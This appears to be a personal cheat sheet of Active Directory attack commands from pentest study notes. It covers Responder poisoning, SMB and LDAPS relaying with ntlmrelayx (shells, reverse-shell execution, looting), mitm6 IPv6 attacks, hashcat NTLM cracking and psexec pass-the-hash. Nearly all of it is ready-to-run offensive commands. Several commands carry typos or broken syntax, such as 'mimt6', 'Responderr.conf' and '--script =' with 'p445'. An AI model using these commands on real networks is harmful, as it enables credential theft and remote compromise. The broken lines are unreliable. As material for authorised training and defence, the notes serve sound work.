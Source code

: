 # responder.py
sudo responder -I eth0 -dwv

for SMB Relay 
disable responding on smb and http edit /usr/share/responder/Responderr.conf
## ntlmrelayx.py
ntlmrelayx.py -tf targets.txt -smb2support
-i for interactive shell
-e to execute a file (msfvenom rev shell etc.)
-c command (e.g. whoami)
-6 for IPv6
-t target 
-l loot
IPv6 ldaps attack e.g. ntlmrelayx.py -6 -t ldaps://IP -wh (for wpad) fakewpad.marvel.local -l lootme


### nmap check
nmap script to check for smb signing disabled
nmap --script =smb2-security-mode.nse p445 IP/RANGE


# hashcat
hashcat -m # hash code -a ATTACKTYPE 0 or empty hashfile wordlist 
NTLM 1000
NTLMv2 5600



# psexec.py or metasploit #passhash
    used for: 
	    1- passing hashes
		2- creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe
	usage 1 : 
	    psexec.py USUERNAME:@IP -hashes HASH
	usage 2 :
	  psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP
	usage 3 :
      psexec.py DOMAIN/USERNAME:PASSWORD@IP 

More tools like psexec :

*Less noisy start with these smbexec/wmiexec*

# mitm6
```
mimt6 -d DOMAIN
```
then start relay attack using ntlmrelayx.py

```
ntlmrelayx.py -6 -t ldaps://DC_IP -wh fakewpad.DOMAIN -l loot
```